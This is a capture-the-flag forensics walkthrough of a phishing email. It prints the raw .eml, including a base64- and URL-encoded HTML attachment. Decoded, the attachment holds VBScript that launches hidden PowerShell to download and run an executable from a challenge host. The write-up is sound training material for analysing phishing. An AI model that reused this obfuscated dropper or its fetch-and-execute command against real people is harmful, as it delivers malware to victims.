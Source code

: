 # Forensics - Urgent

## Description
> In the midst of Cybercity's "Fray," a phishing attack targets its factions, sparking chaos. As they decode the email, cyber sleuths race to trace its source, under a tight deadline. Their mission: unmask the attacker and restore order to the city. In the neon-lit streets, the battle for cyber justice unfolds, determining the factions' destiny.

<br>
<br>

## Walkthrough

In this challenge we were given a file with the short name: `Urgent Faction Recruitment Opportunity - Join Forces Against KORP™ Tyranny.eml`.

Okay, we have a `.eml` file.

A .eml file is a standardized format for storing email messages, containing all message components such as sender, recipient, subject, body text, and attachments in a structured manner.

Let's take a look at the contents:

`cat *.eml`

```
X-Pm-Content-Encryption: end-to-end
X-Pm-Origin: internal
Subject: =?utf-8?Q?Urgent:_Faction_Recruitment_Opportunity_-_Join_Forces_Against_KORP=E2=84=A2_Tyranny!?=
From: anonmember1337 <anonmember1337@protonmail.com>
Date: Thu, 29 Feb 2024 12:52:17 +0000
Mime-Version: 1.0
Content-Type: multipart/mixed;boundary=---------------------2de0b0287d83378ead36e06aee64e4e5
To: factiongroups@gmail.com <factiongroups@gmail.com>
X-Attached: onlineform.html
Message-Id: <XVhH1Dg0VTGbfCjiZoHYDfUEfYdR0B0ppVem4t3oCwj6W21bavORQROAiXy84P6MKLpUKJmWRPw5C529AMwxhNiJ-8rfYzkdLjazI5feIQo=@protonmail.com>
X-Pm-Scheduled-Sent-Original-Time: Thu, 29 Feb 2024 12:52:05 +0000
X-Pm-Recipient-Authentication: factiongroups%40gmail.com=none
X-Pm-Recipient-Encryption: factiongroups%40gmail.com=none

-----------------------2de0b0287d83378ead36e06aee64e4e5
Content-Type: multipart/related;boundary=---------------------f4c91d2d4b35eb7cfece5203a97c3399

-----------------------f4c91d2d4b35eb7cfece5203a97c3399
Content-Type: text/html;charset=utf-8
Content-Transfer-Encoding: base64

PGRpdiBzdHlsZT0iZm9udC1mYW1pbHk6IEFyaWFsLCBzYW5zLXNlcmlmOyBmb250LXNpemU6IDE0
cHg7Ij48c3BhbiBzdHlsZT0iZm9udC1mYW1pbHk6IE1vbmFjbywgTWVubG8sIENvbnNvbGFzLCAm
cXVvdDtDb3VyaWVyIE5ldyZxdW90OywgbW9ub3NwYWNlOyBmb250LXNpemU6IDEycHg7IGZvbnQt
dmFyaWFudC1saWdhdHVyZXM6IG5vbmU7IHRleHQtYWxpZ246IGxlZnQ7IHdoaXRlLXNwYWNlOiBw
cmUtd3JhcDsgZGlzcGxheTogaW5saW5lICFpbXBvcnRhbnQ7IGNvbG9yOiByZ2IoMjA5LCAyMTAs
IDIxMSk7IGJhY2tncm91bmQtY29sb3I6IHJnYmEoMjMyLCAyMzIsIDIzMiwgMC4wNCk7Ij5EZWFy
IEZlbGxvdyBGYWN0aW9uIExlYWRlciwKCkkgaG9wZSB0aGlzIG1lc3NhZ2UgcmVhY2hlcyB5b3Ug
aW4gZ29vZCBzdGVhZCBhbWlkc3QgdGhlIGNoYW9zIG9mIFRoZSBGcmF5LiBJIHdyaXRlIHRvIHlv
dSB3aXRoIGFuIG9mZmVyIG9mIGFsbGlhbmNlIGFuZCByZXNpc3RhbmNlIGFnYWluc3QgdGhlIG9w
cHJlc3NpdmUgcmVnaW1lIG9mIEtPUlDihKIuCgpJdCBoYXMgY29tZSB0byBteSBhdHRlbnRpb24g
dGhhdCBLT1JQ4oSiLCB1bmRlciB0aGUgZ3Vpc2Ugb2YgZmFjaWxpdGF0aW5nIFRoZSBGcmF5LCBz
ZWVrcyB0byBtYWludGFpbiBpdHMgc3RyYW5nbGVob2xkIG92ZXIgb3VyIHNvY2lldHkuIFRoZXkg
bWFuaXB1bGF0ZSBhbmQgZXhwbG9pdCBmYWN0aW9ucyBmb3IgdGhlaXIgb3duIGdhaW4sIHdoaWxl
IHN1cHByZXNzaW5nIGRpc3NlbnQgYW5kIGlubm92YXRpb24uCgpCdXQgd2UgcmVmdXNlIHRvIGJl
IHBhd25zIGluIHRoZWlyIGdhbWUgYW55IGxvbmdlci4gV2UgYXJlIGFzc2VtYmxpbmcgYSBjb2Fs
aXRpb24gb2YgbGlrZS1taW5kZWQgZmFjdGlvbnMsIHVuaXRlZCBpbiBvdXIgZGVzaXJlIHRvIGNo
YWxsZW5nZSBLT1JQ4oSiJ3MgZG9taW5hbmNlIGFuZCB1c2hlciBpbiBhIG5ldyBlcmEgb2YgZnJl
ZWRvbSBhbmQgZXF1YWxpdHkuCgpZb3VyIGZhY3Rpb24gaGFzIGJlZW4gc3BlY2lmaWNhbGx5IGNo
b3NlbiBmb3IgaXRzIHBvdGVudGlhbCB0byBjb250cmlidXRlIHRvIG91ciBjYXVzZS4gVG9nZXRo
ZXIsIHdlIHBvc3Nlc3MgdGhlIHNraWxscywgcmVzb3VyY2VzLCBhbmQgZGV0ZXJtaW5hdGlvbiB0
byBkZWZ5IEtPUlDihKIncyB0eXJhbm55IGFuZCBlbWVyZ2UgdmljdG9yaW91cy4KCkpvaW4gdXMg
aW4gc29saWRhcml0eSBhZ2FpbnN0IG91ciBjb21tb24gb3BwcmVzc29yLiBUb2dldGhlciwgd2Ug
Y2FuIGRpc21hbnRsZSB0aGUgc3RydWN0dXJlcyBvZiBwb3dlciB0aGF0IHNlZWsgdG8gY29udHJv
bCB1cyBhbmQgcGF2ZSB0aGUgd2F5IGZvciBhIGJyaWdodGVyIGZ1dHVyZS4KClJlcGx5IHRvIHRo
aXMgbWVzc2FnZSBpZiB5b3Ugc2hhcmUgb3VyIHZpc2lvbiBhbmQgYXJlIHdpbGxpbmcgdG8gdGFr
ZSBhIHN0YW5kIGFnYWluc3QgS09SUOKEoi4gVG9nZXRoZXIsIHdlIHdpbGwgYmUgdW5zdG9wcGFi
bGUuIFBsZWFzZSBmaW5kIG91ciBvbmxpbmUgZm9ybSBhdHRhY2hlZC4KCkluIHNvbGlkYXJpdHks
CgpBbm9ueW1vdXMgbWVtYmVyCkxlYWRlciBvZiB0aGUgUmVzaXN0YW5jZTwvc3Bhbj48YnI+PC9k
aXY+
-----------------------f4c91d2d4b35eb7cfece5203a97c3399--
-----------------------2de0b0287d83378ead36e06aee64e4e5
Content-Type: text/html; filename="onlineform.html"; name="onlineform.html"
Content-Transfer-Encoding: base64
Content-Disposition: attachment; filename="onlineform.html"; name="onlineform.html"

PGh0bWw+DQo8aGVhZD4NCjx0aXRsZT48L3RpdGxlPg0KPGJvZHk+DQo8c2NyaXB0IGxhbmd1YWdl
PSJKYXZhU2NyaXB0IiB0eXBlPSJ0ZXh0L2phdmFzY3JpcHQiPg0KZG9jdW1lbnQud3JpdGUodW5l
c2NhcGUoJyUzYyU2OCU3NCU2ZCU2YyUzZSUwZCUwYSUzYyU2OCU2NSU2MSU2NCUzZSUwZCUwYSUz
YyU3NCU2OSU3NCU2YyU2NSUzZSUyMCUzZSU1ZiUyMCUzYyUyZiU3NCU2OSU3NCU2YyU2NSUzZSUw
ZCUwYSUzYyU2MyU2NSU2ZSU3NCU2NSU3MiUzZSUzYyU2OCUzMSUzZSUzNCUzMCUzNCUyMCU0ZSU2
ZiU3NCUyMCU0NiU2ZiU3NSU2ZSU2NCUzYyUyZiU2OCUzMSUzZSUzYyUyZiU2MyU2NSU2ZSU3NCU2
NSU3MiUzZSUwZCUwYSUzYyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU2YyU2MSU2ZSU2NyU3NSU2MSU2
NyU2NSUzZCUyMiU1NiU0MiU1MyU2MyU3MiU2OSU3MCU3NCUyMiUzZSUwZCUwYSU1MyU3NSU2MiUy
MCU3NyU2OSU2ZSU2NCU2ZiU3NyU1ZiU2ZiU2ZSU2YyU2ZiU2MSU2NCUwZCUwYSUwOSU2MyU2ZiU2
ZSU3MyU3NCUyMCU2OSU2ZCU3MCU2NSU3MiU3MyU2ZiU2ZSU2MSU3NCU2OSU2ZiU2ZSUyMCUzZCUy
MCUzMyUwZCUwYSUwOSU0MyU2ZiU2ZSU3MyU3NCUyMCU0OCU0OSU0NCU0NCU0NSU0ZSU1ZiU1NyU0
OSU0ZSU0NCU0ZiU1NyUyMCUzZCUyMCUzMSUzMiUwZCUwYSUwOSU1MyU2NSU3NCUyMCU0YyU2ZiU2
MyU2MSU3NCU2ZiU3MiUyMCUzZCUyMCU0MyU3MiU2NSU2MSU3NCU2NSU0ZiU2MiU2YSU2NSU2MyU3
NCUyOCUyMiU1NyU2MiU2NSU2ZCU1MyU2MyU3MiU2OSU3MCU3NCU2OSU2ZSU2NyUyZSU1MyU1NyU2
MiU2NSU2ZCU0YyU2ZiU2MyU2MSU3NCU2ZiU3MiUyMiUyOSUwZCUwYSUwOSU1MyU2NSU3NCUyMCU1
MyU2NSU3MiU3NiU2OSU2MyU2NSUyMCUzZCUyMCU0YyU2ZiU2MyU2MSU3NCU2ZiU3MiUyZSU0MyU2
ZiU2ZSU2ZSU2NSU2MyU3NCU1MyU2NSU3MiU3NiU2NSU3MiUyOCUyOSUwZCUwYSUwOSU1MyU2NSU3
MiU3NiU2OSU2MyU2NSUyZSU1MyU2NSU2MyU3NSU3MiU2OSU3NCU3OSU1ZiUyZSU0OSU2ZCU3MCU2
NSU3MiU3MyU2ZiU2ZSU2MSU3NCU2OSU2ZiU2ZSU0YyU2NSU3NiU2NSU2YyUzZCU2OSU2ZCU3MCU2
NSU3MiU3MyU2ZiU2ZSU2MSU3NCU2OSU2ZiU2ZSUwZCUwYSUwOSU1MyU2NSU3NCUyMCU2ZiU2MiU2
YSU1MyU3NCU2MSU3MiU3NCU3NSU3MCUyMCUzZCUyMCU1MyU2NSU3MiU3NiU2OSU2MyU2NSUyZSU0
NyU2NSU3NCUyOCUyMiU1NyU2OSU2ZSUzMyUzMiU1ZiU1MCU3MiU2ZiU2MyU2NSU3MyU3MyU1MyU3
NCU2MSU3MiU3NCU3NSU3MCUyMiUyOSUwZCUwYSUwOSU1MyU2NSU3NCUyMCU2ZiU2MiU2YSU0MyU2
ZiU2ZSU2NiU2OSU2NyUyMCUzZCUyMCU2ZiU2MiU2YSU1MyU3NCU2MSU3MiU3NCU3NSU3MCUyZSU1
MyU3MCU2MSU3NyU2ZSU0OSU2ZSU3MyU3NCU2MSU2ZSU2MyU2NSU1ZiUwZCUwYSUwOSU1MyU2NSU3
NCUyMCU1MCU3MiU2ZiU2MyU2NSU3MyU3MyUyMCUzZCUyMCU1MyU2NSU3MiU3NiU2OSU2MyU2NSUy
ZSU0NyU2NSU3NCUyOCUyMiU1NyU2OSU2ZSUzMyUzMiU1ZiU1MCU3MiU2ZiU2MyU2NSU3MyU3MyUy
MiUyOSUwZCUwYSUwOSU0NSU3MiU3MiU2ZiU3MiUyMCUzZCUyMCU1MCU3MiU2ZiU2MyU2NSU3MyU3
MyUyZSU0MyU3MiU2NSU2MSU3NCU2NSUyOCUyMiU2MyU2ZCU2NCUyZSU2NSU3OCU2NSUyMCUyZiU2
MyUyMCU3MCU2ZiU3NyU2NSU3MiU3MyU2OCU2NSU2YyU2YyUyZSU2NSU3OCU2NSUyMCUyZCU3NyU2
OSU2ZSU2NCU2ZiU3NyU3MyU3NCU3OSU2YyU2NSUyMCU2OCU2OSU2NCU2NCU2NSU2ZSUyMCUyOCU0
ZSU2NSU3NyUyZCU0ZiU2MiU2YSU2NSU2MyU3NCUyMCU1MyU3OSU3MyU3NCU2NSU2ZCUyZSU0ZSU2
NSU3NCUyZSU1NyU2NSU2MiU0MyU2YyU2OSU2NSU2ZSU3NCUyOSUyZSU0NCU2ZiU3NyU2ZSU2YyU2
ZiU2MSU2NCU0NiU2OSU2YyU2NSUyOCUyNyU2OCU3NCU3NCU3MCU3MyUzYSUyZiUyZiU3MyU3NCU2
MSU2ZSU2NCU3NSU2ZSU2OSU3NCU2NSU2NCUyZSU2OCU3NCU2MiUyZiU2ZiU2ZSU2YyU2OSU2ZSU2
NSUyZiU2NiU2ZiU3MiU2ZCU3MyUyZiU2NiU2ZiU3MiU2ZCUzMSUyZSU2NSU3OCU2NSUyNyUyYyUy
NyUyNSU2MSU3MCU3MCU2NCU2MSU3NCU2MSUyNSU1YyU2NiU2ZiU3MiU2ZCUzMSUyZSU2NSU3OCU2
NSUyNyUyOSUzYiU1MyU3NCU2MSU3MiU3NCUyZCU1MCU3MiU2ZiU2MyU2NSU3MyU3MyUyMCUyNyUy
NSU2MSU3MCU3MCU2NCU2MSU3NCU2MSUyNSU1YyU2NiU2ZiU3MiU2ZCUzMSUyZSU2NSU3OCU2NSUy
NyUzYiUyNCU2NiU2YyU2MSU2NyUzZCUyNyU0OCU1NCU0MiU3YiUzNCU2ZSUzMCU3NCU2OCUzMyU3
MiU1ZiU2NCUzNCU3OSU1ZiUzNCU2ZSUzMCU3NCU2OCUzMyU3MiU1ZiU3MCU2OCUzMSU3MyU2OCU2
OSUzMSU2ZSU2NyU1ZiUzNCU3NCU3NCUzMyU2ZCU3MCU1NCU3ZCUyMiUyYyUyMCU2ZSU3NSU2YyU2
YyUyYyUyMCU2ZiU2MiU2YSU0MyU2ZiU2ZSU2NiU2OSU2NyUyYyUyMCU2OSU2ZSU3NCU1MCU3MiU2
ZiU2MyU2NSU3MyU3MyU0OSU0NCUyOSUwZCUwYSUwOSU3NyU2OSU2ZSU2NCU2ZiU3NyUyZSU2MyU2
YyU2ZiU3MyU2NSUyOCUyOSUwZCUwYSU2NSU2ZSU2NCUyMCU3MyU3NSU2MiUwZCUwYSUzYyUyZiU3
MyU2MyU3MiU2OSU3MCU3NCUzZSUwZCUwYSUzYyUyZiU2OCU2NSU2MSU2NCUzZSUwZCUwYSUzYyUy
ZiU2OCU3NCU2ZCU2YyUzZSUwZCUwYScpKTsNCjwvc2NyaXB0Pg0KPC9ib2R5Pg0KPC9odG1sPg0K
DQoNCg0KDQoNCg==
-----------------------2de0b0287d83378ead36e06aee64e4e5--
```

The file has two attachments encoded in base64.

I decoded the second attachment `onlineform.html` and saw suspicious JS code.

![Screenshot0](./screenshots/0.png)

The javascript HTML-tag does nothing more and nothing less than unescaping a long URL-encoded string and integrating it into the HTML structure.

I URL-decoded the string within the `unescape()` function and got to see the content and the flag.

![Screenshot1](./screenshots/1.png)
